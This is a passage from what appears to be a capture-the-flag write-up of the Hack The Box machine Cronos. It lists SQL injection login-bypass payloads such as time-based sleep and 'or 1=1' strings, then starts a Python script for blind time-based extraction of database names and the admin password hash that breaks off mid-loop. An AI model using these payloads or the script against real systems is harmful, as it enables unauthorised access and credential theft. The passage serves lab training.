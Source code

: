 ```sql
# http://admin.cronos.htb/
'                           '                             # :(
admin                       admin' and sleep(5)-- -       # :(
' or sleep(5)-- -           admin                         # :)
admin' and sleep(5)-- -     admin                         # :(
admin' or sleep(5)-- -      admin                         # :) :0
admin' or 1=1-- -           admin                         # :)
```

<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before continuing with the **Engagement** of the box, and together with the **[hack4u](https://hack4u.io/){:target="_blank"}** community we were able to make a script to automate the **SQLi** exploit. First we had to analyze the source code and the requests sent to the server at the time of authentication, so verify the names of the parameters to create a **Python** script and know where to perform the injection, which is of the **[Blind Time Based](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval){:target="_blank"}** type. The first thing I do is to get the name of the **Database**, then leak the names of the existing **tables** in the DB, then the names of the **columns** and finally the **password** (which happens to be a hash) of the only user that exists (**admin**). I don't succeed in cracking the hash neither in **[MD5Online](https://www.md5online.org/md5-decrypt.html){:target="_blank"}** or **[MD5 Encrypt/Decrypt](https://10015.io/tools/md5-encrypt-decrypt){:target="_blank"}** and one could think that so much effort was useless but this is what growing in this field is all about, taking advantage to improve the skills with each lab.

```bash
nvim sqli.py
```

> **sqli.py**:

```python
#!/usr/bin/python3

from pwn import *
import signal, time, requests, string, pdb

def def_handler(sig, frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
admin_url = "http://admin.cronos.htb/index.php"
characters = string.ascii_lowercase

def makeRequest():

    p1 = log.progress("SQLi")
    p1.status("Initiating brute force attack")

    p2 = log.progress("Databases Leak")

    time.sleep(2)

    database = ""
    for position in range(1, 10):
```